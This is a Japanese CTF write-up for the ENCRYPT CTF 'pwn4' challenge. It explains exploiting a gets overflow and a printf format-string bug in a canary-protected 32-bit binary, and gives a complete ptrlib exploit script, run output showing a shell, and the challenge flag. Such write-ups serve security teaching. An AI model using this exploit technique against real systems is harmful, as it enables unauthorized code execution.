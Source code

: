 # [pwn 300pts] pwn4 - ENCRYPT CTF
このCTF最後のpwnです。
32bitバイナリでSSPが有効です。
```
$ checksec pwn4
[*] 'pwn4'
    Arch:	32 bits (little endian)
    NX:		NX enabled
    SSP:	SSP enabled (Canary found)
    RELRO:	No RELRO
    PIE:	PIE disabled
```
まずはIDAで解析します。
やはりgetsによるオーバーフローがあるのですが、printfによるFSBもあります。
さらに`/bin/bash`を呼び出す`__`関数もあるので、これが呼び出せればOKです。

ということで、getsでリターンアドレスを`__`のアドレスに書き換えた後、FSBで`__stack_chk_fail`のGOTをret gadgetにしてやれば良さそうです。
もちろんFSBで全部済ましても問題ありません。

せっかくなので32ビット用にFSBのpayloadを作ってくれる関数をptrlibに追加しました。
現状ではpwntoolsのfmtstr_payloadと同じ機能ですが、今後64ビットへの対応や、書き込み対象アドレスにnullバイトが入っている際の対応なども自動でしてくれる機能を搭載する予定です。

```python
from ptrlib import *

elf = ELF("./pwn4")
sock = Process("./pwn4")

rop_ret = 0x0804838a
writes = {
    elf.got("__stack_chk_fail"): rop_ret
}

payload = b''
payload += fsb(
    pos = 7,
    writes = writes,
    bs = 1,
    written = 0
)
payload += b'A' * (0x90 - len(payload))
payload += p32(elf.symbol("__"))
sock.sendline(payload)
sock.interactive()
```

できました。
```
$ python solve.py 
[+] Process: Successfully created new process (PID=11191)
[ptrlib]$ Do you swear to use this shell with responsility by the old gods and the new?

                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA=

i don't belive you!
%122c%7$hhn%249c%8$hhn%129c%9$hhn%4c%10$hhnAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA=

cat flag.txt
encryptCTF{Y0u_4R3_7h3_7ru3_King_0f_53v3n_KingD0ms}
[ptrlib]$
```

# 感想
ENCRYPT CTFは全体的に簡単だったので少し癒やされました。
